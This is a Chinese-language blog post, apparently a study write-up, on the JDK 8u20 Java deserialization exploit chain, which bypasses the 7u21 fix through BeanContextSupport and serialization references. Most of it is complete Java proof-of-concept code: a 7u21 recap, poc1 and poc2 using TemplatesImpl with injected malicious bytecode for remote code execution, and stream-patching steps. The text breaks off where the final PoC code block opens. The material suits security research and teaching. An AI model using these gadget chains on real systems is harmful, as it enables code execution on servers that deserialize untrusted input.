










+++
title= "Jdk8u20反序列化漏洞"
slug= "jdk8u20-deserialization"
description= "7u21gadget的绕过"
date= "2025-10-10T23:37:01+08:00"
lastmod= "2025-10-10T23:37:01+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html 先下载8u20

## 回顾学习

回顾7u21反序列化利用链

```java
package Base.Unserialize.Jdk;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javax.xml.transform.Templates;


public class jdk7u21Unserialize {
    public static void main(String[] args) throws Exception {
        TemplatesImpl harmlessTemplates = new TemplatesImpl();
        setFieldValue(harmlessTemplates, "_name", "Pwnr");
        setFieldValue(harmlessTemplates, "_tfactory", new TransformerFactoryImpl());


        String hashCodeStr="f5a5a608";
        Map innerMap=new HashMap();
        innerMap.put(hashCodeStr, harmlessTemplates);


        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) construct.newInstance(Templates.class,innerMap);
        setFieldValue(invocationHandler, "type", Templates.class);


        Templates proxyMap = (Templates) Proxy.newProxyInstance(
                jdk7u21Unserialize.class.getClassLoader(),
                new Class[]{Templates.class},
                invocationHandler
        );
        HashSet set=new HashSet();
        set.add(proxyMap);
        set.add(harmlessTemplates);

        setFieldValue(harmlessTemplates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(Base.Unserialize.Base.Evil.class.getName()).toBytecode()});

        byte[] data=serialize(set);
        Object o =unserialize(data);
    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

```java
at sun.reflect.annotation.AnnotationInvocationHandler.equalsImpl(AnnotationInvocationHandler.java:199)
at sun.reflect.annotation.AnnotationInvocationHandler.invoke(AnnotationInvocationHandler.java:59)
at com.sun.proxy.$Proxy0.equals(Unknown Source:-1)
at java.util.HashMap.put(HashMap.java:475)
at java.util.HashSet.readObject(HashSet.java:309)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:57)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:601)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1004)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1891)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1796)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1348)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:370)
at Base.Unserialize.Jdk.jdk7u21Unserialize.unserialize(jdk7u21Unserialize.java:68)
at Base.Unserialize.Jdk.jdk7u21Unserialize.main(jdk7u21Unserialize.java:49)
```

修复方式是，在`sun.reflect.annotation.AnnotationInvocationHandler#readObject`里面，之前捕获异常但是直接返回了，不影响反序列化，现在是直接抛出异常，就阻碍反序列化了。



但是我们观察到`AnnotationInvocationHandler` 的 `readObject()` 当中，除了第一行调用了 `ObjectInputStream` 的 `defaultReadObject()` 外，其他位置都没有再从 stream 中读内容，也就是说，在 throw Exception 之前，一个 `AnnotationInvocationHandler` 对象已经被完整构造好了。来看一个有趣的逻辑问题

```java
package Base.Unserialize.Jdk;

public class test {
    public static void main(String[] args) {
        try {
            try {
                int i = 1/0;
            }catch (Exception e){
                throw new Exception("bitch");
            }
        }catch (Exception e){
        }
        System.out.println("good");
    }
}
```

最终回显为good，典型的双重否定变肯定！那现在需要找到一个合适的 readObject，前面的反序列化入口是`Hashset#readObject`，并且其中还会触发`s.readObject()`

```java
for (int i=0; i<size; i++) {
        E e = (E) s.readObject();
        map.put(e, PRESENT);
    }
```

这个 for 循环学习CC链的时候经常见，有两次，第一次是通过 `readObject()` 构造一个 `TemplatesImpl` ，第二次是通过 `readObject()` 构造一个 proxy ，然后 put 这个 proxy ，而也就是这第二次的 put 触发了RCE。而 Proxy 对象只有一个属性 InvocationHandler 那必然是复用这个地方



Java序列化协议允许通过`TC_REFERENCE`(0x71)引用已反序列化的对象。这种设计原本是为了优化重复对象的存储，但是现在，hiahia，所以现在再找一个和jdk7u21时的`AnnotationInvocationHandler`一样的类就行了，找到`java.beans.beancontext.BeanContextSupport`

```java
private synchronized void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {

    synchronized(BeanContext.globalHierarchyLock) {
        ois.defaultReadObject();

        initialize();

        bcsPreDeserializationHook(ois);

        if (serializable > 0 && this.equals(getBeanContextPeer()))
            readChildren(ois);

        deserialize(ois, bcmListeners = new ArrayList(1));
    }
}
```

跟进到 readChildren

```java
public final void readChildren(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        int count = serializable;

        while (count-- > 0) {
            Object                      child = null;
            BeanContextSupport.BCSChild bscc  = null;

            try {
                child = ois.readObject();
                bscc  = (BeanContextSupport.BCSChild)ois.readObject();
            } catch (IOException ioe) {
                continue;
            } catch (ClassNotFoundException cnfe) {
                continue;
            }


            synchronized(child) {
                BeanContextChild bcc = null;

                try {
                    bcc = (BeanContextChild)child;
                } catch (ClassCastException cce) {
                    // do nothing;
                }

                if (bcc != null) {
                    try {
                        bcc.setBeanContext(getBeanContextPeer());

                       bcc.addPropertyChangeListener("beanContext", childPCL);
                       bcc.addVetoableChangeListener("beanContext", childVCL);

                    } catch (PropertyVetoException pve) {
                        continue;
                    }
                }

                childDeserializedHook(child, bscc);
            }
        }
    }
```

可以看到 readChildren 方法里面的catch模块全是 continue，并且也进行了`ois.readObject()`来反序列化，结合序列化中 Reference 的特性，只要让上面的 for 循环运行3次（也就是 s.readObject() 运行三次），第一次构建`AnnotationInvocationHandler`，第二次和原来一样，构造一个 TemplatesImpl ， 第三次用 TC_REFERENCE 让 proxy 的 h 指向第一次构建的`AnnotationInvocationHandler`，而为了这样精准的控制，我们需要使用 LinkedHashSet 而不是 Hashset，`LinkedHashSet` 的序列化/反序列化行为会严格保持插入顺序，而 `HashSet` 的顺序是不确定的。

## Poc

### poc1 报错

首先设置 serializable 为1触发 readChildren，然后引用 handler，在 children 字段注入 Hashmap，LinkedHashSet 不要把顺序弄错了，最后注入 memberValues形成比较触发RCE

```java
package Base.Unserialize.Jdk;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javax.xml.transform.Templates;
import java.beans.beancontext.BeanContextSupport;
import java.io.*;
import java.lang.reflect.*;
import java.util.*;

public class jdk8u20Poc1 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        setFieldValue(templates, "_bytecodes", new byte[][]{
                ClassPool.getDefault().get(Base.Unserialize.Base.Evil.class.getName()).toBytecode()
        });

        BeanContextSupport bcs = new BeanContextSupport();
        setFieldValue(bcs, "serializable", 1);

        Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> ctor = clazz.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        InvocationHandler ih = (InvocationHandler) ctor.newInstance(Templates.class, new HashMap<>());
        setFieldValue(ih, "type", Templates.class);


        Map<Object, Object> tmpMap = new HashMap<>();
        tmpMap.put(ih, null);
        setFieldValue(bcs, "children", tmpMap);

        Templates proxy = (Templates) Proxy.newProxyInstance(
                jdk8u20Poc1.class.getClassLoader(),
                new Class[]{Templates.class},
                ih
        );

        LinkedHashSet<Object> payload = new LinkedHashSet<>();
        payload.add(bcs);
        payload.add(templates);
        payload.add(proxy);

        Map<String, Object> memberValues = new HashMap<>();
        memberValues.put("f5a5a608", templates);
        setFieldValue(ih, "memberValues", memberValues);

        byte[] serialized = serialize(payload);
        unserialize(serialized);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws Exception {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```



看到报错里面`BeanContextSupport#deserialize`跟进之后发现到这里就会抛出错误



继续跟进到发现根本问题在这里



全局搜索 defaultDataEnd 找到这里给赋值的true

```java
public void defaultReadObject()
        throws IOException, ClassNotFoundException
    {
        SerialCallbackContext ctx = curContext;
        if (ctx == null) {
            throw new NotActiveException("not in call to readObject");
        }
        Object curObj = ctx.getObj();
        ObjectStreamClass curDesc = ctx.getDesc();
        bin.setBlockDataMode(false);
        defaultReadFields(curObj, curDesc);
        bin.setBlockDataMode(true);
        if (!curDesc.hasWriteObjectData()) {
            /*
             * Fix for 4360508: since stream does not contain terminating
             * TC_ENDBLOCKDATA tag, set flag so that reading code elsewhere
             * knows to simulate end-of-custom-data behavior.
             */
            defaultDataEnd = true;
        }
        ClassNotFoundException ex = handles.lookupException(passHandle);
        if (ex != null) {
            throw ex;
        }
    }
```

可以看出需要自定义一个 WriteObject 方法，用 javassist 给`AnnotationInvocationHandler`加一个 `writeObjecct()`方法

### poc2 报错

```java
package Base.Unserialize.Jdk;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import javax.xml.transform.Templates;
import java.beans.beancontext.BeanContextSupport;
import java.io.*;
import java.lang.reflect.*;
import java.util.*;

public class jdk8u20Poc2 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        setFieldValue(templates, "_bytecodes", new byte[][]{
                ClassPool.getDefault().get(Base.Unserialize.Base.Evil.class.getName()).toBytecode()
        });

        Class<?> ihClass = createModifiedHandlerClass();
        InvocationHandler ih = (InvocationHandler) ihClass
                .getDeclaredConstructor(Class.class, Map.class)
                .newInstance(Templates.class, new HashMap<>());
        setFieldValue(ih, "type", Templates.class);

        Templates proxy = (Templates) Proxy.newProxyInstance(
                jdk8u20Poc2.class.getClassLoader(),
                new Class[]{Templates.class},
                ih
        );

        BeanContextSupport bcs = new BeanContextSupport();
        setFieldValue(bcs, "serializable", 1);
        HashMap tmpMap = new HashMap();
        tmpMap.put(ih, null);
        setFieldValue(bcs, "children", tmpMap);

        LinkedHashSet set = new LinkedHashSet();
        set.add(bcs);
        set.add(templates);
        set.add(proxy);

        HashMap memberValues = new HashMap();
        memberValues.put("f5a5a608", templates);
        setFieldValue(ih, "memberValues", memberValues);

        byte[] data = serialize(set);
        unserialize(data);
    }

    private static Class<?> createModifiedHandlerClass() throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass cc = pool.get("sun.reflect.annotation.AnnotationInvocationHandler");
        CtMethod writeObject = CtMethod.make(
                "private void writeObject(java.io.ObjectOutputStream out) throws IOException {" +
                        "    out.defaultWriteObject();" +
                        "}", cc);
        cc.addMethod(writeObject);
        return cc.toClass();
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws Exception {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

依旧报错，调试发现在这里到下面的 switch 语句会直接跳出

将序列化函数和反序列化函数进行修改，写入到文件中，

```java
    public static void serializeToFile(Object obj, String filename) throws IOException {
        try (FileOutputStream fos = new FileOutputStream(filename);
             ObjectOutputStream oos = new ObjectOutputStream(fos)) {
            oos.writeObject(obj);
        }
    }
    public static Object unserializeFromFile(String filename)
            throws IOException, ClassNotFoundException {
        try (FileInputStream fis = new FileInputStream(filename);
             ObjectInputStream ois = new ObjectInputStream(fis)) {
            return ois.readObject();
        }
    }
```

分析下序列化流，找到3109的位置



https://docs.oracle.com/javase/8/docs/platform/serialization/spec/protocol.html 查看文档发现是

```java
final static byte TC_ENDBLOCKDATA = (byte)0x78;
final static byte TC_NULL = (byte)0x70;
```

把这两玩意删了，



```java
package Base.Unserialize.Jdk;

import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;

public class Test1 {
    public static void main(String[] args) throws Exception {
        String filename = "8u20.ser";
        unserializeFromFile(filename);
    }
    public static Object unserializeFromFile(String filename)
            throws IOException, ClassNotFoundException {
        try (FileInputStream fis = new FileInputStream(filename);
             ObjectInputStream ois = new ObjectInputStream(fis)) {
            return ois.readObject();
        }
    }
}
```

### 最终poc

我们要把删除字节的功能实现在代码中，由于Byteutils有时候我获取不到，有时候又可以，保险起见，我直接从源码里面抄出来。

```java
